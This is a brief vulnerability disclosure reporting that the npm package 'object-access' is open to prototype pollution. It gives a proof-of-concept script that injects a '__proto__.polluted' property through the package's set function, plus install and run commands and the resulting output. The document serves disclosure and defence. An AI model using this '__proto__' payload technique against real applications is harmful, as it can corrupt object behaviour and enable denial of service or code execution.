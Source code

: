 # Description

`object-access` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior using a `__proto__` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var objectAccess = require("object-access")
var obj = {}
console.log("Before : " + obj.polluted);
objectAccess.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
var obj1 = {}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i object-access # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
